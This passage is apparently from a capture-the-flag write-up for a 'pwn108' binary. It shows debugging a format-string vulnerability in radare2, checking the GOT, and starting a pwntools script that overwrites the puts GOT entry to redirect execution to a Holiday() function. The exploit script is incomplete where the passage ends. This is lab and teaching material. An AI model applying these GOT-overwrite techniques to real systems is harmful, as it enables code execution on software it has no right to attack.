 
The script above will write a payload to a file, which can be ingested to Radare2

Payload can be read in radare like this
```
radare2 -R stdin=payload -d -A pwn108.pwn108
```

Set breakpoints where vulnerable `printf` function resides and on the instruction after using `db 0x12312312` command.

![picture 69](/assets/images/c8fce63cc3f28197ed0de54894a3c5c55e09610bcb355cc9cc808297bd67d590.png)  

We've hit the breakpoint. We can check if the location from puts has been filled using `pxr @ section..got.plt`

![picture 70](/assets/images/b7e4fa192c4436881089ede25303cbdd7647a1c629accab3ba2dca945dd2eb8d.png)  

If we continue the execution and check the puts value again in the `got.plt` we have the value that we've overwritten with, but only the first 4 bytes. This is because `%n` format specifier only writes 4 bytes by default.

![picture 71](/assets/images/a393e13fd90085442ae4a5f6f028da815df87708b9375797bb944fd34ce0f9a5.png)  

To overwrite the full value, we just have to conduct 2 writes instead of the single one.

`Holiday()` function starts at `0x40123b`

To better understand this, i've used following resource which explains this topic really well: https://axcheron.github.io/exploit-101-format-strings/

We will rewrite the payload as following. 
```python
from pwn import *

context.binary = binary = ELF("./pwn108.pwn108", checksec=False)

# PWNTools will get the offset from the binary!
got_puts_address = binary.got.puts
print("GOT puts address has an offset of {}".format(hex(got_puts_address)))

#fill the read buffer
junk_payload = b"A"*0x12

```